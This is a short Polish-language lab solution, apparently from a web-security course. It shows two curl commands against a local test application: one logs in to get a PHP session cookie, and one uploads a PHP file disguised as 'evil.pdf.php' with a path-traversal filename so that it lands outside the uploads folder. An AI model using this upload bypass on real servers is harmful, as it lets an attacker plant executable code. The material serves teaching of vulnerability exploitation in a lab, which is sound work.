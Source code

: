 # Wykonanie [ROZWIĄZANIE]

Używając terminala, wykonaj następujące polecenie:

```sh
curl -X POST -d "login=baim&password=baim" -i http://localhost:8080/
```

Z wylistowanego nagłówka, skopiuj ciasteczko sesyjne PHPSSID i przeklej je do poniższego polecenia:

```sh
curl -b "PHPSESSID=<ciastko_sesji>" -X POST -F "file=@evil.pdf.php;filename=../evil.pdf.php" -F "submit=Prześlij" -i http://localhost:8080/?module=upload
```

Polecenie to wysyła wskazany plik z podmienioną nazwą.

Sprawdź w katalogu aplikacji, czy udało Ci się wysłać moduł poza folder **uploads**.
